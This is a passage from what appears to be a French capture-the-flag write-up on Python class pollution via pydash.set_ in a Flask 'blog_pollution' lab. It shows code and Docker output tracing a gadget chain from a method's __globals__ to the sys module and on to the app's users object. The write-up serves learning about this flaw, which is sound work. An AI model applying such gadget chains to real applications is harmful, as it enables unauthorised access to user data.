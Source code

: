   On peut modifier la fonction *set* en local pour afficher le contenu de chemin python :  
  ```python
  def set(self, article_name, article_content):
    x = self.__init__.__globals__['__loader__'].__init__.__globals__['sys']
    print(dir(x),x)
    pydash.set_(self, article_name, article_content)
    return True
  ```

  ```bash
  docker-compose build;docker-compose up
  ```
  *Résultats*:  
  ```bash
  ...
    blog_pollution-anozerblog-1  | ['__breakpointhook__', '__displayhook__', '__doc__', '__excepthook__', '__interactivehook__', '__loader__', '__name__', '__package__', '__spec__', '__stderr__', '__stdin__', '__stdout__', '__unraisablehook__', '_base_executable', '_clear_type_cache', '_current_frames', '_debugmallocstats', '_framework', '_getframe', '_git', '_home', '_xoptions', 'abiflags', 'addaudithook', 'api_version', 'argv', 'audit', 'base_exec_prefix', 'base_prefix', 'breakpointhook', 'builtin_module_names', 'byteorder', 'call_tracing', 'callstats', 'copyright', 'displayhook', 'dont_write_bytecode', 'exc_info', 'excepthook', 'exec_prefix', 'executable', 'exit', 'flags', 'float_info', 'float_repr_style', 'get_asyncgen_hooks', 'get_coroutine_origin_tracking_depth', 'get_int_max_str_digits', 'getallocatedblocks', 'getcheckinterval', 'getdefaultencoding', 'getdlopenflags', 'getfilesystemencodeerrors', 'getfilesystemencoding', 'getprofile', 'getrecursionlimit', 'getrefcount', 'getsizeof', 'getswitchinterval', 'gettrace', 'hash_info', 'hexversion', 'implementation', 'int_info', 'intern', 'is_finalizing', 'maxsize', 'maxunicode', 'meta_path', 'modules', 'path', 'path_hooks', 'path_importer_cache', 'platform', 'prefix', 'pycache_prefix', 'set_asyncgen_hooks', 'set_coroutine_origin_tracking_depth', 'set_int_max_str_digits', 'setcheckinterval', 'setdlopenflags', 'setprofile', 'setrecursionlimit', 'setswitchinterval', 'settrace', 'stderr', 'stdin', 'stdout', 'thread_info', 'unraisablehook', 'version', 'version_info', 'warnoptions']
    <module 'sys' (built-in)>
  blog_pollution-anozerblog-1  |  * Serving Flask app 'app'
  blog_pollution-anozerblog-1  |  * Debug mode: on
  blog_pollution-anozerblog-1  | WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
  blog_pollution-anozerblog-1  |  * Running on all addresses (0.0.0.0)
  blog_pollution-anozerblog-1  |  * Running on http://127.0.0.1:5000
  blog_pollution-anozerblog-1  |  * Running on http://172.18.0.2:5000
  blog_pollution-anozerblog-1  | Press CTRL+C to quit
  blog_pollution-anozerblog-1  |  * Restarting with stat
  blog_pollution-anozerblog-1  |  * Debugger is active!
  blog_pollution-anozerblog-1  |  * Debugger PIN: 590-441-492
  ...
  ```

  On accède ici au module *sys*.
  On peut aller encore plus loin est accéder au dictionnaire contenant les utilisateurs :
  ```python
  x = self.__init__.__globals__['__loader__'].__init__.__globals__['sys'].modules['__main__'].users
  ```
  ```bash
  <users.Users object at 0x7f54b78e9640>
  ```


[//]: <> (Wrote By Vozec 06/05/2023)